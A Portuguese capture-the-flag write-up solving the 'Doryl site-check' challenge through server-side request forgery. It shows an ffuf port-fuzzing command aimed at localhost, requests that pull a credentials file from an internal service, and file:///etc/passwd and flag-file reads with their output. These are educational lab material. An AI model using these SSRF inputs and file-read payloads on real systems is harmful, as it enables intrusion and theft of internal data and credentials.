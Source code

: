 ```yaml
---
title: "Write Up - Doryl Site-Check"
summary: "Resolução do desafio Doryl site-check "
tags: ["CTF", "Hack the Box"]
# externalUrl: ""
date: 2024-09-05
draft: false
showAuthor: false
authors:
- edson
showAuthorsBadges: false
---
```


# CTF Doryl

### Como acessar o desafio:
- Acesse o https://github.com/fguisso/doryl-site-check, e inicie o desafio na sua máquina. No caso foi entregue a versão na branch `Internal`.

### Descrição
O Desafio tem como objetivos:
-   Encontrar um arquivo com informações muito sensiveis.
-   Encontrar uma flag no formato secDevOps{.....}

### Como Funciona a Aplicação
- A aplicação possui apenas um campo de entrada, utilizado para escanear a url inserida:

![aplicacao](https://i.imgur.com/ilyYRAt.png)
-Note que ele retorna a resposta completa da url que o usuário inseriu.

![print_resposta_aplicacao](https://i.imgur.com/g71XYNY.png)
Então parece que a aplicação internamente envia requisições para a url. Nesse princípio é possível inserir uma URL para tentar acessar servidores internos, como o `http://localhost`.

- Utilize as portas web mais utilizadas em um bruteforce, para saber se existe alguma porta interna aberta: `80,443,8009,8180,81,300,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017`.

- Utilize o ffuf para automatizar a buscar de portas o input é enviado no parâmetro `target` para o servidor, e note que filtrei as respostas que possuem 3246 palavras que considerei como resposta padrão do site.

`ffuf -u http://0.0.0.0:8080/check -X POST -d "target=http%3A%2F%2Flocalhost%3AFUZZ" -w ports.txt -H 'Content-Type: application/x-www-form-urlencoded' -fw 3246`

![print_ffuf_aplicacao](https://i.imgur.com/1eJAAko.png)
- Note que ele encontrou apenas 2 portas abertas a 8080, que fornece o site principal, e a 3000, que fornece uma aplicação interna.
- Analise a resposta completa, quando você insere http://localhost:3000,
```
GET http://localhost:3000
Content-Length: 93   
Content-Type: text/html; charset=utf-8   
Date: Thu, 05 Sep 2024 05:46:30 GMT   
Last-Modified: Thu, 05 Sep 2024 01:48:03 GMT   
<pre>
<a href="employers.html">employers.html</a>
<a href="logins.txt">logins.txt</a>
</pre>
```
- Note que ele possui um link para `logins.txt`, ao enviar a url http://localhost:3000/logins.txt no input, ele irá retornar informações muito sensíveis.
```
GET http://localhost:3000/logins.txt
Accept-Ranges: bytes   
Content-Length: 233   
Content-Type: text/plain; charset=utf-8   
Date: Thu, 05 Sep 2024 05:50:52 GMT   
Last-Modified: Thu, 05 Sep 2024 01:48:03 GMT   
// Super sensitive information

// WiFi
id: Doryl
password: 2022doryl@*

// Guest WiFi
id: Doryl-Guest
password: dorylguest2022

// Intranet
login: admin
password: Adminqwert2022

// Ginpass
login: dorylAdmin
password: ginAndOrange
```
#### Primeira Etapa Concluída
### Encontre a FLAG
- Note, o servidor envia um request interno para a url inserida, que utilizou o protocolo `http`. Ao saber disso podemos tentar outros protocolos comuns para acessar arquivos de um servidor interno, como o `file`
- Vamos tentar recuperar um arquivo comum em servidores linux `/etc/passwd` para testar se ele retornar o conteúdo, insira no input `file:///etc/passwd`.
```
GET file:///etc/passwd

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
```
- Essa resposta, é o conteúdo do `/etc/passwd` , então podemos tentar recuperar a flag que está armazenada no sistema. É comum em ctfs a flag ficar na mesma pasta do desafio e com o  nome `flag.txt` , partindo deste princípio podemos inserir `file://./flag.txt` .
```
GET file://./flag.txt

SecDevOps{SSRF_3_UM_PERIGOnvim .!}
```
Todos Objetivos foram concluidos ( ;

|Criador do Desafio: https://github.com/fguisso
